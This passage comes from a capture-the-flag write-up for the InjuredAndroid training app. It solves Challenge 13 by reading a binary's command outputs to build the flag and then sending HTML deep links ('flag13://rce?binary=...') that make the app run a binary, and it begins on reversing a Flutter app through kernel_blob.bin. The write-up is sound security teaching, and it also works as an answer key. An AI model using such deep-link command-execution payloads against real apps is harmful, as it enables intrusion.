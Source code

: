 We can clearly see that we can type `--help`. Lets do that and the output is:- 

```
./narnia.x86_64 --help
Available commands are testOne, rick, testTwo, potato, testThree
```

Well then we just use the inputs and see the outputs. Only `testOne`, `testTwo`, and `testThree` are the inputs we need the outputs we get are `Treasure`, `_`, and `Planet` respectively.

We will act according to the `hint` and concat it to get `Treasure_Planet`.
### The exploit

We will write a `html` code to send the `intent` to the app on the device.

```html
<html>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testOne">Test one!</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testTwo">Test two!</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testThree">Test three!</p>
<p><a href="flag13://rce?combined=Treasure_Planet">aaaa</p>
</html>
```

We will push this file to our device using the command

`adb push .\lvl_13.html /sdcard/Download`

Now just run the `html` on the device and click on the links one by one. We can directly click the last one as we already have the flag but it is a proof of concept that we can make the app execute a binary.

Flag :- `Treasure_Planet`

## Challenge 14

So, the set of challenges in this level are based on `flutter`. Now flutter a applications operate in a different way than native android app. Flutter applications use the Dart language and run on a rendering engine that differs from the native Android framework. Instead of relying on traditional activities and views, Flutter apps use a widget-based architecture, where everything is a widget. This abstraction allows for cross-platform compatibility but also introduces unique security considerations, such as how code is compiled, stored, and executed.

Previously I have had a bit of experience reversing flutter apks, but that was using a tool called `blutter` and for some reason `blutter` didn't work on it. The main functionality of the flutter app lies in the native `libapp.so` file.

I was struggling and then had to look into the writeups, by the author of `injured android`, rather saw that part of the video where he started to solve it and in that video, he had the `kernal_blob.bin` file.

`kernal_blob.bin` is basically a Dart kernel bytecode representation of your app's code generated by a compiler in Flutter's toolchain(https://stackoverflow.com/questions/53368586/what-is-flutters-kernel-blob-bin).

So that file has the `source code(dart code)` of the flutter part of the code. `So to solve this challenge, I will be referring to the source code of the flutter portion of the apk.`
